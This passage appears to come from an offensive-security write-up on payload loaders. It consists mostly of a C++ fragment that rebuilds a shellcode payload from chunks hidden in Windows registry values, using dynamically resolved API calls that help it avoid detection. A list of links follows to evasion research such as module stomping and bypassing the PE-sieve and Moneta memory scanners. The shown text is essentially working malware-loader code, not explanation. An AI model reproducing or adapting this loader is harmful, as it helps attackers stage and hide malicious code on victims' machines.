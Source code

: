 ```cpp
    int counter = 0;

    if (RegGetValueFunc(hKey, NULL, value, RRF_RT_DWORD, NULL, &nChunks, &dwSize) == ERROR_SUCCESS) {
        if (0 == nChunks) {
            return EXIT_FAILURE;
        }

#ifdef _DEBUG
        printfFunc("Number of chunks to retrieve: %u\n", nChunks);
#endif

        for (int i = 0; i < nChunks; i++) {
#ifdef _DEBUG
            printfFunc("Chunk to retrieve: %u\n", i);
#endif
            copyingNow = remainingBytes >= CHUNKSIZE ? CHUNKSIZE : remainingBytes;

            tmpBuf = (UCHAR*)mallocFunc(copyingNow * sizeof(UCHAR));
            if (NULL == tmpBuf) {
                i--;
                continue;
            }
            memsetFunc(tmpBuf, 0, copyingNow);

            if (i == 0) {
                value = (LPCTSTR)chunkValue1;
            }
            else if (i == 1) {
                value = (LPCTSTR)chunkValue2;
            }
            else {
                value = (LPCTSTR)chunkValue3;
            }

            // We retrieve the saved chunk of bytes
            dwSize = copyingNow;
            RegGetValueFunc(hKey, NULL, value, RRF_RT_REG_BINARY, NULL, tmpBuf, &dwSize);

            // We copy the saved bytes into the main buffer
            for (int j = 0; j < copyingNow; j++) {
                cbBuf[(CHUNKSIZE * i) + j] = tmpBuf[j];
                counter++;
            }
            // memcpyFunc(cbBuf + CHUNKSIZE * i, tmpBuf, copyingNow);
            // We update the remaining bytes
            remainingBytes = remainingBytes - copyingNow;
            if (NULL != tmpBuf) {
                freeFunc(tmpBuf);
                tmpBuf = NULL;
            }
#ifdef _DEBUG
            printfFunc("Remaining bytes: %u\n", remainingBytes);
#endif
        }
    }

#ifdef _DEBUG
    if (NULL == cbBuf || counter != shellcodeSize) {
        printfFunc("Error fetching saved bytes\n");
        return EXIT_FAILURE;
    }
#endif
```

[1]: https://github.com/klezVirus/inceptor.git
[2]: https://github.com/Idov31/FunctionStomping
[3]: https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/
[4]: https://github.com/Idov31/FunctionStomping
[5]: https://twitter.com/Idov31
[6]: https://twitter.com/hasherezade
[7]: https://twitter.com/modexpblog
[8]: https://www.arashparsa.com/bypassing-pesieve-and-moneta-the-easiest-way-i-could-find/
[9]: https://twitter.com/waldoirc
[10]: https://github.com/waldo-irc/YouMayPasser/
[11]: https://blog.f-secure.com/cowspot-real-time-module-stomping-detection/
[12]: https://twitter.com/_rastamouse
[13]: https://offensivedefence.co.uk/posts/module-stomping/